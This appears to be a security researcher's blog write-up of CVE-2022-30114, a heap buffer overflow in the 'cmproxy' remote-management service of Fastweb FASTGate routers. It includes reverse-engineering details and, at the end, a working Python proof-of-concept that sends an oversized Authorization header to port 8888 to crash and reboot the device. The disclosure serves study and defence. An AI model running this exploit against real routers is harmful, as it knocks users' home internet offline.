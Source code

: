 ```yaml
---
layout: post
title:  "Fastweb FastGate 'cmproxy' buffer overflow (CVE-2022-30114)"
date:   2023-05-12 19:43:16 +0200
categories: jekyll update
---
```

## Introduction
CVE-2022-30114 is an un-authenticated ***heap-based* buffer overflow** that affects **[Fastweb FASTGate](https://www.fastweb.it/myfastweb/assistenza/guide/FASTGate/)** home routers, both **GPON and VDSL2** versions.

![Fastweb FASTgate](https://www.fastweb.it/myfastweb/gfx/assistenza/kb-sf/Manuali%20modem%20Fastweb/FASTGate/Fastgate.jpg)
*Fastweb FASTgate*

The vulnerability lies in the *'cmproxy'* executable, a custom program used by Fastweb operators for remote management of the device, which handles HTTP requests through a Lighttpd FastCGI webserver listening on TCP port 8888. A specially crafted HTTP request allows a remote attacked to crash the executable and reboot the device, causing a Denial of Service.

**Credits:** Thanks to [@FrancYesc0](https://github.com/FrancYescO/tch_firmware_extracted.git) for the firmware dumps! 
### CVSS v3.x
**Base Score:** [7.5 HIGH](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H&version=3.1C) **Vector:** CVSS:3.1/[AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H&version=3.1)

### Affected devices
* **Technicolor MediaAccess FGA2130FWB** (GPON) - Version 18.3.n.0482_FW_233_FGA2130 and below 
* **Technicolor MediaAccess DGA4131FWB** (VDSL2) - Version 18.3.n.0482_FW_264_DGA4131 and below

## Vulnerabilty details
The devices are vulnerable to a *heap-based* buffer overflow, caused by the lack of validation of the length of the '*Authorization*' HTTP header value on the web service exposed on **TCP port 8888**. The service is exposed on both the WAN and the LAN interfaces of the device[^1].

[^1]: WAN access was disabled as a compensative control after the first disclosure to Fastweb. As of writing, _the service is still exposed on the internal LAN_.

A remote, unauthenticated attacker, sending a string longer than 100 bytes in the '*Authorization*' HTTP header, causes an overflow in a pre-allocated buffer in the *'.bss'* memory section of an executable file called *'cmproxy'* which handles HTTP requests sent on the mentioned service above via FastCGI protocol.

This allows to overwrite the heap memory, causing the process to become corrupted and crash on the first memory allocation. It's worth noting that the C library version used (GNU C Library - glibc v2.24) contains protection measures to detect heap corruption but it is not excluded, however, that by deepening the analysis it would be possible to overwrite heap structures and achieve code execution.

## Technical analysis
Starting from the usual port scan on the device, TCP port 8888 was found open, both on LAN and WAN side.

![Open ports on LAN side](/resources/f56272761b26feaf30effab8b2e20d46.png)

A quick `grep` for '8888' on the firmware filesystem (again, thanks [@FrancYesc0](https://github.com/FrancYescO/tch_firmware_extracted.git) for extrated firmware!) revealed that the port was used by a Lightttpd web server instance. Below is the configuration file, found in `/etc_tss/lighttpd/lighttpd.conf`.

```
# lighttpd configuration file

server.modules = (
    "mod_fastcgi",
    "mod_access",
    "mod_auth"
)

# force use of the "write" backend (closes: #2401)
server.network-backend = "write"
server.document-root = "/www2/"
server.port = 8889
server.pid-file = "/var/run/lighttpd.pid"
server.errorlog-use-syslog = "enable"
server.bind = "127.0.0.1"

#### fastcgi module
fastcgi.server = (
    "/perftest" => (
        "cmproxy-local" => (
            "socket" => "/tmp/cmproxy-fastcgi-1.socket",
            "bin-path" => "/bin/cmproxy",
            "max-procs" => 4,
            "check-local" => "disable",
        )
    ),
    "/" => (
        "cmproxy-local" => (
            "socket" => "/tmp/cmproxy-fastcgi-2.socket",
            "bin-path" => "/bin/cmproxy",
            "max-procs" => 4,
            "check-local" => "disable",
        )
    )
)

$ SERVER ["socket"] == ":8888" {
    ssl.engine = "enable"
    ssl.pemfile = "/etc/nginx/server.crt"
}
```

The server is listening on TCP port 8888 with an HTTPS service ad it uses *FastCGI* to handle HTTP requests through a custom application in the path `/bin/cmproxy` (architecture is 32bit ARM).

![Vulnerable executable file](/resources/50a1ddbcc727aed285635b71513c30ea.png)

Using Ghidra, the famous open-source reverse engineering tool by NSA, it was possible to reconstruct the executtion flow and to verify that there is a specific function that process all the input coming from the HTTP request. This function was deliberately renamed '*parse_args*'.

![Reverse engineering - 'main' function](/resources/0b80f8cd9ae20d3a090410ff743a1353.png)

This function is used to:
* retrieve all the data coming from the HTTP request from the environment variables (filled by the web server using FastCGI protocol);
* parse the data and fill local and global data structures, which will be used by the program for further processing;
* handle error cases.

In particular, the '*Authorization*' HTTP header is passed in the 'HTTP_AUTHORIZATION' environment variable and its address is saved in the local variable *http_authorization*, a string pointer.

![Reverse engineering - input data parsing](/resources/4b987801b4d22cc8a5cfd0d256340168.png)

Further on in the code, the string value is copied, using C library function *strcpy*, to the address of the variable'*auth_string*'. This copy is done **without any control on the length of the string itself**...

![Reverse engineering - *strcpy*](/resources/e08d913fb2a5253805d62cbf1b73a699.png)

This variable is an uninitialized global, thus in the *'.bss'* section of the ELF file, and it points to a 100 bytes buffer at the address *0x0002434c*.

![Reverse engineering - Buffer in *.bss* ](/resources/520247d3278a1c3eafdc994b1088f5e0.png)

Therefore, sending a string value longer than 100 characters in the 'Authorization' HTTP header causes *strcpy* to smash the buffer in the '.bss' and overwrite everything is saved after the address *0x00025000*.
That memory segment contains the *heap*, so the buffer overflow causes the corruption of the data structures of the dynamic memory allocation used by the C library.

The picture below shows an example of the execution of the *cmproxy* application in an emulated enviroment using QEMU. The FastCGI is simulated by filling directly environment variables. *Authorization* header is a string of 3780 bytes, way longer than the allocated buffer. As expected, the buffer overflow corrupts the heap data structures and when the next *malloc* is called the C library (GNU C Library - glibc v2.24) detects the memory corruption and terminates the execution as a safeguard. 

![Application crash](/resources/1a9cdf474cf549b8dd352bb11befcc1a.png)

On the physical device, the application crash causes the reboot of the machine.

### *PoC exploit*
Here is a quick-and-dirty exploit in Python code.

```python
#!/usr/bin/env python3

# PoC for MediaAccess FGA2130FWB cmproxy buffer overflow

import sys
import requests

def exploit(target):
    url = 'https://{}:8888/check?cmd=xxx'.format(target)
    authorization = 'Basic ' + 'A' * 3780

    r = requests.get(url, headers = {'Authorization': authorization})

if __name__ == '__main__':

    if len(sys.argv) < 2:
        print('Not enough arguments\nUsage: %s <target>' %(sys.argv[0]))
        sys.exit()

    target = sys.argv[1]
    print('[*] Exploiting \'%s\'' % target)
    try:
        exploit(target)
    except Exception as e:
        print(e)
        sys.exit()

    print('[*] Exploit sent. \'%s\' should reboot', target)

```
